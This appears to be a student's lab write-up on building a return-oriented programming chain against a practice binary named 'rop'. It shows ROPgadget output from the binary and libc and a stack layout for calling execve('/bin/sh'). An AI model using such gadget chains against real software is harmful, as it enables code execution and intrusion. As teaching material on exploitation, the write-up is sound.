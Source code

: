 ```python
0x7ffff8070c9d
[*] Stopped process './rop' (pid 894915)
```

So now that we (allegedly) have the addresses of `syscall` and `"/bin/sh"` in libc... I think we can find the other gadgets like normal?
##### Gadget A `pop rdi`
This one just does what it's supposed to
```
0x00000000004006b3 : pop rdi ; ret
```
##### Gadget B `pop rsi`
This one has an extra step, but is still pretty straightforward
```
0x00000000004006b1 : pop rsi ; pop r15 ; ret
```
Will need to put junk data before return address to put in `r15`
##### Gadget C: Putting data in `rdx`
She's gonna have to be in the library too :(
```
┌──(kali㉿kali)-[~/Desktop/6-Week/ROP-Pop-Pop]
└─$ ROPgadget --binary libc-2.31.so| grep -e "pop rdx.*ret"

0x0000000000119431 : pop rdx ; pop r12 ; ret
```
This one will also need junk data before the ret address
##### Gadget D: Putting data in `rax`
This one is also in libc, but at least it doesn't require anything extra
```
0x0000000000036174 : pop rax ; ret
```


Here is where that actual syscall is:
```
┌──(kali㉿kali)-[~/Desktop/6-Week/ROP-Pop-Pop]
└─$ ROPgadget --binary libc-2.31.so| grep -e ": syscall"
0x000000000002284d : syscall
```
Of course that ends up calculating a different address...lol
##### Gadget F: Plain Return: (in rop)
```
0x00000000004004a9 : ret
```
I don't actually know if we need this one

Here's what the stack should look like:
```
  retAddr(main) --> Addr(A)     // pop rdi ; ret
		 rsp(A) --> datA        // --> "/bin/sh"
     retAddr(A) --> Addr(B)     // pop rsi ; pop r15 ; ret
		 rsp(B) --> 0x00
		            0xdeadbeef
     retAddr(B) --> Addr(C)     // pop rdx ; pop r12 ; ret
		 rsp(C) --> 0x00
					0xdeadbeef
     retAddr(C) --> Addr(D)     // pop rax ; ret
		 rsp(D) --> 0x3b        // execve
     retAddr(D) --> Addr(E)     // syscall
   retAddr(sys) --> Addr(F)     // ret
```
